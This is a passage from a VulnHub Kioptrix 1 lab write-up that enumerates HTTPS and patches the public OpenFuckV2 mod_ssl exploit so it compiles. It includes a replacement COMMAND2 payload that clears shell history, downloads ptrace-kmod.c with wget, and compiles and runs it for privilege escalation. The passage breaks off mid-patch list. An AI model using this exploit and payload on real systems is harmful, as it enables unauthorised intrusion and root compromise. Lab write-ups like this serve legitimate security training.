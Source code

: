 		- php code does not work
	- `manual, mrtg, usage`
		- Redirected to localhost

	
## TCP/443 - HTTPS - No Exploits Found
1. View enumerated directories
	 - `test.php`
		![](images/Pasted%20image%2020220123151154.png)
		- php code does not work
	- `manual, mrtg, usage`
		- Redirected to localhost
2. Search for `mod_ssl 2.8.7` exploits
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/mod_ssl]
	└─# searchsploit mod_ssl 2.8
	Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow               unix/remote/21671.c
	Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow               unix/remote/21671.c
	Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)         unix/remote/764.c
	
	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/mod_ssl]
	└─# gcc 764.c -o exploit
	764.c:644:31: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function); did you mean ‘SSL_MAX_SSL_SESSION_ID_LENGTH’?
	```
	- However, none of them work w/o any modification
3. Fixing the exploit
	- [Guide I followed](https://monkeydouy.medium.com/how-to-compile-openfuckv2-c-69e457b4a1d1)
	1. Line 24: Add
		```
		#include <openssl/rc4.h>
		#include <openssl/md5.h>

		#define SSL2_MT_ERROR 0
		#define SSL2_MT_CLIENT_FINISHED 3
		#define SSL2_MT_SERVER_HELLO 4
		#define SSL2_MT_SERVER_VERIFY 5
		#define SSL2_MT_SERVER_FINISHED 6
		#define SSL2_MAX_CONNECTION_ID_LENGTH 16
		```
	2. Line 673: Replace COMMAND 2 
		```
		#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
		``` 
	3. Line 970: Add 
		```
		const unsigned char *p, *end;
		```
	4. Line 972: Remove 
		```
		unsigned char *p, *end;
		``` 
	5. Line 1079: Replace